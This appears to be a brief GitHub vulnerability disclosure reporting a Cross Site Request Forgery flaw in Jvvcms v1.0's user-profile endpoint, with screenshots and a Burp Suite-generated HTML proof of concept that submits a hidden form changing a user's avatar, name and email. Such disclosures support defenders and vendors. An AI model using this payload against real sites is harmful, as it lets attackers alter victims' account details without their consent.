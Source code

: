 traget:
https://www.jvvcms.com/

Jvvcms v1.0 was found to contain Cross Site Request Forgery (CSRF) through component/system/core/sysUser/userInfo

<img width="1713" alt="image-20240504221357154" src="https://github.com/wohencaicai/jvvcms/assets/122728083/8b4704cf-9d95-490c-ad57-245503181783">

Poc

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/system/core/sysUser/userInfo" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="avatar" value="https&#58;&#47;&#47;img&#46;jvvcms&#46;com&#47;FiW2agVN24vYDPcWwOl8JQMQEDSg" />
      <input type="hidden" name="realName" value="1" />
      <input type="hidden" name="email" value="test&#64;1622&#46;com" />
      <input type="hidden" name="remark" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Succesd
<img width="1714" alt="image-20240504214950560" src="https://github.com/wohencaicai/jvvcms/assets/122728083/d37a67e2-b0f5-4f88-9088-87e38aaad692">


